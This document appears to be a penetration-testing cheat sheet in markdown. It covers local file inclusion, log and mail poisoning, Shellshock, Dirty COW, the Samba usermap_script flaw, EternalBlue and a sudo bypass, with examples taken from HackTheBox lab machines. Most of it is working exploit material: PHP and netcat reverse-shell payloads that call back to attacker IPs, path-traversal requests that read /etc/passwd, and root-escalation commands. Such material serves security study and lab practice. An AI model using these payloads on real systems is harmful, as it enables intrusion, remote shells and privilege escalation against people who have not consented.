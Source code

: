 # Local File Inclusion (LFI)
## Example
* assume website provides functionality to view files
* if not properly sanitized input like ``../../../../../etc/passwd`` may be possible

## PHPInfo LFI
* see https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf
* basic idea: race condition due to saving request (multipart) in file under /tmp/XYZ
* the filename can be found in the phpinfo page under variables
* the request should be as big as possible to increase processing time to win the race
* if you are able to browse/access this file before it gets deleted you have RCE

## LFI + SMPT Reverse Shell
* assume you have local file inclusion like:
```
GET //vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action HTTP/1.1
```
* additionally assume SMTP Port (25) is open
```
# connect
$> telnet 10.10.10.7 25
Trying 10.10.10.7...
Connected to 10.10.10.7.
Escape character is '^]'.

# wait for prompt
220 beep.localdomain ESMTP Postfix

# if enhanced
EHLO asdf

# if not
HELO asdf

# verify receipient
VRFY fanis@localhost
252 2.0.0 fanis@localhost # if exist
550 5.1.1 <asdf>: Recipient address rejected: User unknown in local recipient table # if not

# send mail with payload
mail from: manu@manu.ch
250 2.1.0 Ok
rcpt to: fanis@localhost
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
<?php system("/bin/bash -i >& /dev/tcp/10.10.14.4/3141 0>&1"); ?>

.
250 2.0.0 Ok: queued as E2517D92FD

```
* setup listener and send request to:
```
/vtigercrm/graph.php?current_language=../../../../../../../..//var/mail/fanis%00&module=Accounts&action
```

# Log Poisoning
* For this example a LFI is necessary to work
* prerequisite: accessing the http-log file is needed
* since your user agent is logged for example in /var/log/apache2/access.log you have full control
* modify user agent for example to: ``<?php exec("whoami");?>``
* browse to access log of web server

# ShellShock
## CVE-2014-6271
```
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

## Example from HTB (Shocker)

**Request:**
```
GET /cgi-bin/user.sh HTTP/1.1

Host: 10.10.10.56

User-Agent: () { :;};echo -e "\r\n$(/bin/cat /etc/passwd)"

Connection: close

```

**Response:**
```
HTTP/1.1 200 OK
Date: Tue, 06 Oct 2020 19:40:22 GMT
Server: Apache/2.4.18 (Ubuntu)
Connection: close
Content-Type: text/x-sh
Content-Length: 1687

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
.
.
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly:x:1000:1000:shelly,,,:/home/shelly:/bin/bash

Content-Type: text/plain
Just an uptime test script
 15:40:23 up 15 min,  0 users,  load average: 0.00, 0.00, 0.00

```

# Dirtyc0w Kernel Exploit (Linux)
See https://github.com/firefart/dirtycow
1. Transfer .c file to target
2. compile it with ``gcc -pthread dirty.c -o dirty -lcrypt``
3. execute the binary ``./dirty newpassword``
4. user ``firefart`` is created with root privileges
# CVE-2007-2447 (smb usermap script)
## Example from Lame (HTB)
```
smbclient //10.10.10.3/tmp
smb: \> logon "/=`nohup mkfifo /tmp/manununu; nc 10.10.14.41 2222 0</tmp/manununu | /bin/sh >/tmp/manununu 2>&1; rm /tmp/manununu`"
```

# MS17-010 - CVE-2017-0143 (EternalBlue)
* see https://github.com/k4u5h41/MS17-010_CVE-2017-0143

# Sudo underflow bug (CVE-2019-14287)
```
sudo -u#-1 /bin/bash
```
